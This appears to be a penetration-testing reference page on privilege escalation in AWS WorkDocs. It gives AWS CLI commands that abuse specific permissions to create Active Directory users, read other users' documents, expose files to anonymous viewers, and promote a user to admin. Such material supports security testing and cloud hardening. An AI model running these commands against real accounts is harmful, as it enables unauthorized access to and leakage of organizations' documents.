 # AWS - WorkDocs Privesc

## WorkDocs

For more info about WorkDocs check:

[[../aws-services/aws-directory-services-workdocs-enum.md]]

### `workdocs:CreateUser`

Create a user inside the Directory indicated, then you will have access to both WorkDocs and AD:

```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

The files might contain sensitive information, read them:

```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

If you don't have access to read something, you can just grant it

```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

You can make a user admin by setting it in the group ZOCALO_ADMIN.\
For that follow the instructions from [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage_set_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage_set_admin.html)

Login with that user in workdoc and access the admin panel in `/workdocs/index.html#/admin`

I didn't find any way to do this from the cli.

